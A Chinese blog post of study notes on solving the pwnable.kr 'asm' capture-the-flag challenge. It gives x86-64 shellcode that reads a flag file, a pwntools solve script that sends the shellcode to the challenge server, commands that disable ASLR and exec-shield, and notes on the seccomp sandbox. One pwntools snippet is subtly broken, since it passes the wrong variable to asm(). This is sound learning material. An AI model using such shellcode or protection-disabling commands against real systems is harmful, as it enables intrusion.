 ```yaml
---
layout: post
date:   2017-07-11 15:14:54
categories: 学习笔记
tags:   linux shellcode pwnable.kr
---
```

# 壹、 linux下基本shellcode的编写 *(pwnable，asm)*

刷到了pwnable.kr中的asm题，开始系统学习shellcode。问题代码专注写利用即可，抽象如下：

	char code[] = "bytecode will go here!";
	int main(int argc, char **argv)
	{
		int (*func)();
		func = (int (*)()) code;
		(int)(*func)();
	}

关闭保护的方法：<br>
echo 0 > /proc/sys/kernel/exec-shield   #turn it off<br>
echo 0 > /proc/sys/kernel/randomize_va_space #turn it off<br>

这里我打算用两个方法写shellcode.
## 1 基础的“写汇编代码”→“汇编”→“提取字节码” 方法。

### Q1: 汇编与生成方法
- 目前我使用如下命令来生成和提取：

	$ nasm -f elf64 exit.asm
	$ ld -o exiter exit.o
	$ objdump -d exiter

### Q1: 字符串传入?
这里有一个困扰了我的问题，就是字符串怎么传入的问题，这里方法很巧妙，就是把字符串放在末尾，前面使用call的方式，这样字符串的地址就出现在了栈上，就可以pop到想要的寄存器中去了。

### Q2: syscall 和 int 80 不等价？
根据[文档](http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)，系统调用应该就是int 0x80的形式，但是我在虚拟机中调试发现int 80 并不能实现syscall的功能，字节码也不一样。
果然在[stackoverflow](https://stackoverflow.com/questions/12806584/what-is-better-int-0x80-or-syscall)上有了回答：

- `syscall` is default way of entering kernel mode on x86-64. This instruction is not available in 32 bit modes of operation on Intel processors.
- `sysenter` is an instruction most frequently used to invoke system calls in 32 bit modes of operation. It is similar to syscall, a bit more difficult to use though, but that is kernel's concern.
- `int 0x80` is a legacy way to invoke a system call and should be avoided.

所以，64位下还是用syscall为好，老旧的kernel再使用int 0x80。

### 题解：
流程是先open，然后read到栈上，再write到标准输出

- shellcode.asm:<br>

```
global _start:
_start:
	jmp short endder;
starter:
	mov rax, 2; sys_open
	pop rdi;
	mov rsi, 0;
	syscall;

	mov rsi, rsp;
	mov rdi, rax;
	xor rax,rax; sys_read
	mov rdx, 100;
	syscall;

	mov rax, 1; sys_write
	mov rdi, 1;
	syscall;

	mov rax, 60;
	syscall;

endder:
	call starter;
	db 'this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong'
```

- solve.py:

```
import pwn

payload = '\xeb0\xb8\x02\x00\x00\x00_\xbe\x00\x00\x00\x00\x0f\x05H\x89\xe6H\x89\xc7H1\xc0\xbad\x00\x00\x00\x0f\x05\xb8\x01\x00\x00\x00\xbf\x01\x00\x00\x00\x0f\x05\xb8<\x00\x00\x00\x0f\x05\xe8\xcb\xff\xff\xffthis_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong\x00'
con = pwn.ssh(user='asm', password = 'guest', host = 'pwnable.kr', port = 2222)
tunnel = con.remote('0', 9026)
tunnel.send(payload)
tunnel.interactive()
```
flag: Mak1ng_shelLcodE_i5_veRy_eaSy, [参考链接](https://etenal.me/archives/972#C22)

## 2 使用pwntools工具（pwn.shelldrift）

首先要设置目标环境，学习到两个姿势：

- *方法一*、使用pwn.context(arch="amd64", os = 'linux')设定好目标环境，还可以类似pwn.context.log_level='debug'这样设置目标环境<br>
  然后再使用pwn.shellcraft.*中的各种例如syscall，open，read等方法。
- *方法二*、直接使用pwnlib.shellcraft.amd64.linux.*中的各种例如syscall，open，read等方法
- 以上方法都是生成asm源码，还要用pwn.asm生成对应字节码。<br>
<br>_pwnlib和from pwn import *有点微妙的关系目前还没弄懂_

shellcraft.*中有各种基本的方法，如mov等的操作，写起来和原始汇编差别不大，注意寄存器要写成带引号的字符串形式。同时也有`syscall(syscall=None, arg0=None, arg1=None, arg2=None, arg3=None, arg4=None, arg5=None)`等集成比较好的方法。我们这里用的open、read、write也有集成了。可以参考[pwntools官方文档](https://docs.pwntools.com/en/stable/shellcraft/amd64.html#module-pwnlib.shellcraft.amd64)。<br>

[这里](http://blog.csdn.net/qq_33528164/article/details/71023772)给的题解很清晰明了，连如何放置字符串都不需要考虑（pushstr只有方法一中有）。但是我好奇字符串位置，就把shellcode拿出来看了一下：
<img src="{{ site.baseurl }}/images/{5$]7M213M7TMIQAG}H`9@N.png"><br>
看来这篇博客错了，[这里](http://veritas501.space/2017/04/30/pwnable.kr_writeup/)生成的是原始的.asm源码文件，这里的用法是正确的，还要用pwn.asm生成对应的字节码。不过这里的push字符串的方法可以参考，也是一种方法，拆开成碎片逐个push到栈上。经过测试，我下面这个payload也能够生效的。
```
from pwn import *
context(os='linux', arch='amd64')
asmcode = ''
asmcode += shellcraft.pushstr("this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong")
asmcode += shellcraft.open('rsp',0,0)
asmcode += shellcraft.read('rax','rsp',100)
asmcode += shellcraft.write(1,'rsp',100)
shellcode = asm(shellcode)
```



---
# 贰、 Linux沙箱: seccomp sandbox  *(pwnable, asm)*

Seccomp(secure computing)是Linux kernel （自从2.6.23版本之后）所支持的一种简洁的sandboxing机制。它能使一个进程进入到一种“安全”运行模式，该模式下的进程只能调用4种系统调用（system calls），即read(), write(), exit()和sigreturn()，否则进程便会被终止。

- seccomp_rule_add(scmp_filter_ctx ctx, uint32_t action, int syscall, unsigned int arg_cnt, ...);
- seccomp_rule_add_array(scmp_filter_ctx ctx,
                                  uint32_t action, int syscall,
                                  unsigned int arg_cnt,
- seccomp_rule_add_exact(scmp_filter_ctx ctx, uint32_t action,
                                  int syscall, unsigned int arg_cnt, ...);
- seccomp_rule_add_exact_array(scmp_filter_ctx ctx,
                                        uint32_t action, int syscall,
                                        unsigned int arg_cnt,
                                        const struct scmp_arg_cmp *arg_array);

以上等方法会添加新的过滤器到seccomp过滤器中。这个方法会因为处理器架构的不同而在细节上有一些差异。新添加的filter rule需要通过[seccomp_load(3)](http://man7.org/linux/man-pages/man3/seccomp_load.3.html)来生效。[参见linux man手册](http://man7.org/linux/man-pages/man3/seccomp_rule_add.3.html)

如下面是pwnable.kr中asm的题目代码，可以作为一个范例

	#include <seccomp.h>
	scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
	...
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
	...
	seccomp_load(ctx); //enable
	seccomp_release(ctx);

表明允许open这一系统调用的进行。

注，gcc编译时应该使用 -lseccomp参数

---